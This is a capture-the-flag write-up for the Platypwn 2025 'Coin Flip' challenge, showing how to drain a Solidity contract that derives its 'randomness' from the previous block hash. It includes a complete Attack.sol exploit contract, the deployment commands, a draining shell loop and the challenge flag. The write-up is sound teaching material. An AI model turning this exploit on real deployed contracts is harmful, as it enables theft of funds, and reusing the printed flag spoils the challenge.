










## Platypwn 2025 - Coin Flip Write-up


This challenge, named "Coin Flip," requires us to drain a smart contract's funds by exploiting a common vulnerability related to on-chain randomness. The goal is to make the `isSolved()` function return `true`, which only happens when the target contract's balance falls below 10 ETH.

### Step 1: Initial Analysis and Vulnerability Identification

First, we connect to the challenge spawner via `netcat` to get our unique instance details.

```bash
nc 10.80.5.99 31337
action? 1
```

The server provides us with an RPC endpoint, a private key, and the address of a `Setup` contract.



The provided source code consists of two contracts: `Setup.sol` and `Chal.sol`.
*   **`Setup.sol`**: Deploys the `Chal` contract and funds it with 100 ETH. Its only purpose is to check if the challenge is solved.
*   **`Chal.sol`**: This is our target. It contains a `flip()` function that simulates a coin toss.

The vulnerability lies in the `flip()` function within `Chal.sol`:
```solidity
function flip() external payable {
    require(msg.value >= 0.05 ether, "Must send ether to flip");
    require(msg.value <= 5 ether, "Max 5 ether per flip");
    // Flip a coin
    if (uint256(blockhash(block.number - 1)) % 2 == 0) {
        // Win
        payable(msg.sender).transfer(msg.value * 12 / 10);
    }
}
```
The outcome of the flip depends on `blockhash(block.number - 1)`. The hash of the previous block is a publicly known value within the current block's execution environment. This means a smart contract can read this value and predict the outcome of the `if` statement **before** making a decision. This is not true randomness and is fully exploitable.

### Step 2: Crafting the Exploit Contract (`Attack.sol`)

The strategy is to create a contract that only calls `flip()` when it is guaranteed to win.

Our `Attack.sol` contract will have an `attack()` function that performs the exact same check as the target contract: `uint256(blockhash(block.number - 1)) % 2 == 0`. If the condition is true (a winning block), it proceeds to call the `flip()` function on the `Chal` contract with the maximum bet of 5 ETH. If the condition is false, it does nothing, saving our funds.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface IChal {
    function flip() external payable;
}

contract Attack {
    IChal public immutable target;
    address public owner;

    constructor(address _target) {
        target = IChal(_target);
        owner = msg.sender;
    }

    receive() external payable {}

    function attack() public {
        if (uint256(blockhash(block.number - 1)) % 2 == 0) {
            require(address(this).balance >= 5 ether, "Not enough ETH to attack");
            target.flip{value: 5 ether}();
        }
    }

    function withdraw() public {
        payable(owner).transfer(address(this).balance);
    }
}
```

### Step 3: Setting Up the Environment and Deployment

We set up our shell environment with the credentials provided by the server.



Next, we need the address of the actual `Chal` contract. We can retrieve this by calling the public `TARGET()` function on the `Setup` contract.

```bash
cast call $SETUP_CONTRACT_ADDRESS "TARGET()" --rpc-url $RPC_URL
```
**Note:** `cast` returns a 32-byte value. We must trim the leading zeros to get the correct 20-byte address.



With the target address, we compile and deploy our `Attack.sol` contract. Due to issues with terminal argument length, the most reliable method was to first get the creation bytecode, save it to a file (`bytecode.txt`), and then deploy it using `cast send --create`.

First, we perform a "dry run" of the deployment to get the bytecode.
```bash
forge create src/Attack.sol:Attack --rpc-url $RPC_URL --private-key $PRIVATE_KEY --constructor-args $TARGET_CONTRACT_ADDRESS
```



We copy the entire value of the `input` field from the transaction output. This value is the complete creation bytecode for our `Attack` contract, including the constructor argument (the target's address). This bytecode is then saved into the `bytecode.txt` file.

Finally, we deploy the contract by passing this bytecode to the `cast send --create` command. This method bypasses any argument length limits.
```bash
# The bytecode.txt file now contains the long hex string from the previous step's output
cast send --rpc-url $RPC_URL --private-key $PRIVATE_KEY --create $(cat bytecode.txt)
```

This successfully deploys our contract and returns its address.



### Step 4: Draining the Contract and Capturing the Flag

With our `Attack` contract live, we can begin the exploit.

1.  **Fund the Attack Contract:** We send 5 ETH to our contract so it can make the first bet.
    ```bash
    cast send $ATTACK_CONTRACT_ADDRESS --value 5ether --rpc-url $RPC_URL --private-key $PRIVATE_KEY
    ```
    The successful transaction receipt confirms our contract is funded and ready.
    

2.  **Verify Initial State:** Before launching the main attack, we check the target contract's balance. As expected, it holds a significant amount of Ether (74 ETH in this case).
    ```bash
    cast balance $TARGET_CONTRACT_ADDRESS --rpc-url $RPC_URL
    ```
    

3.  **Automate the Attack:** We use a simple shell script (`final.sh`) to repeatedly call the `attack()` function. The contract's internal logic ensures it only executes the `flip()` call on winning blocks.

    ```bash
    #final.sh = 3.sh 
    while true; do
      cast send $ATTACK_CONTRACT_ADDRESS "attack()" \
        --rpc-url $RPC_URL \
        --private-key $PRIVATE_KEY \
        --gas-limit 15000000 \
        && echo "[SUCCESS] WE DRAIN! Balance Chal: $(cast balance $TARGET_CONTRACT_ADDRESS --rpc-url $RPC_URL --ether)" \
        || echo "[INFO] Wait even block..."
      sleep 1
    done
    ```
    We run the script and watch as it successfully drains the target's balance transaction by transaction.

    

4.  **Confirm Solution:** After the script runs for a while, the balance of the `Chal` contract is completely drained. We verify this in two ways:
    *   First, we check the target's balance again, which is now 0.
    *   Second, we call the `isSolved()` function on the `Setup` contract, which now returns `true`.

    

5.  **Get the Flag:** We return to our initial `netcat` session and select option `3` to retrieve the flag.

    

### Flag
`PP{1_c4n_533_y0ur_futur3::NkqtZ2cksPA8}`